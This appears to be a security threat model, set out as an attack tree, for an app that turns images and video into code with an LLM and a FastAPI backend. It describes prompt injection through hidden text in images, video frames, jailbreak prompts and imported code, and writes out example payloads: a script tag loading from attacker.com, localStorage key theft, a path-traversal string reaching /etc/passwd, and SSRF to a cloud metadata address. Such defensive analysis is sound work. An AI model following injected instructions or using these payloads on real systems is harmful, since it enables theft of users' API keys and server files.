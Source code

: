 The analysis breaks down the attacker's goal into four primary sub-goals.

### 1. Manipulate AI to Generate Malicious Code

The core function of the application is to trust an AI to generate code. This trust can be abused by crafting inputs that trick the AI into producing malicious code.

-   **1.1 Craft Malicious Input:** An attacker creates an input that appears benign but contains hidden instructions to the LLM.
    -   **1.1.1 Malicious Instructions in Image:** The image contains subtle text, possibly in a color close to the background or in a comment block, instructing the LLM to generate malicious code.
    -   **1.1.2 Malicious Instructions in Video:** A video input contains fleeting frames with malicious text prompts that are processed by the LLM.
    -   **1.1.3 Malicious Text Prompt:** During an "update" iteration, the attacker provides a text prompt that acts as a jailbreak, overriding previous context and instructing the LLM to generate malicious code.
    -   **1.1.4 Malicious Imported Code (System Prompt Injection):** An attacker provides malicious code to the "import code" feature. As seen in `test_prompts.py`, this imported code is embedded directly into the system prompt for subsequent updates, which could poison the LLM's trusted context and more effectively bypass safeguards.
-   **1.2 Malicious Code Payloads:** The resulting generated code could perform various malicious actions.
    -   **1.2.1 Cross-Site Scripting (XSS):** The code contains a script that executes in the frontend's preview pane.
    -   **1.2.2 Remote Script Inclusion:** The code includes a `<script>` tag pointing to an attacker-controlled server (`<script src="http://attacker.com/payload.js"></script>`).
    -   **1.2.3 Data Exfiltration:** The code contains Javascript that reads sensitive information (e.g., from `localStorage`) and sends it to an attacker's server.

### 2. Exploit Insecure Frontend Rendering of Generated Code

This attack path is the direct consequence of a successful "Manipulate AI" attack. The frontend's responsibility is to display the generated code, but if done insecurely, it can execute malicious payloads.

-   **2.1 Execute Code in Preview Pane:** The malicious code generated in Attack Path 1 is loaded into the frontend for the user to preview.
-   **2.2 Steal Secrets from Local Storage:** The frontend stores user-provided API keys in the browser's `localStorage`. A malicious script executing from the preview pane (if not properly sandboxed) can access the `localStorage` of the parent window's origin and steal these keys.
-   **2.3 Hijack User Session:** The malicious script can use the user's authenticated context to perform actions on their behalf, such as making further WebSocket requests to the backend.

### 3. Exploit Backend Service Vulnerabilities

The backend FastAPI server exposes several endpoints that could be targeted by an attacker with network access to the user's machine.

-   **3.1 Path Traversal in Evaluation Endpoints:** The `/evals`, `/pairwise-evals`, and other related endpoints accept a `folder` path from the user. The code joins this path with other filenames, which could allow an attacker to read files outside the intended directories by supplying a crafted path like `../../../../etc/passwd`.
-   **3.2 Server-Side Request Forgery (SSRF) in Screenshot Endpoint:** The `/api/screenshot` endpoint takes a URL, sends it to a third-party service, and returns the resulting image. An attacker could provide an internal network URL (e.g., `http://169.254.169.254/latest/meta-data` on AWS or `http://localhost:8080/internal-dashboard`). The tests in `test_screenshot.py` confirm that local and private IP addresses are considered valid inputs, making this vulnerability highly probable.
-   **3.3 Denial of Service (DoS) via Video Processing:** The video processing logic in `video/utils.py` uses `moviepy` to extract frames from user-uploaded videos. An attacker could submit a crafted video file (e.g., very large, extremely long duration, or a "zip bomb" style compression attack) that exhausts the server's CPU and memory during processing, causing the backend to crash.
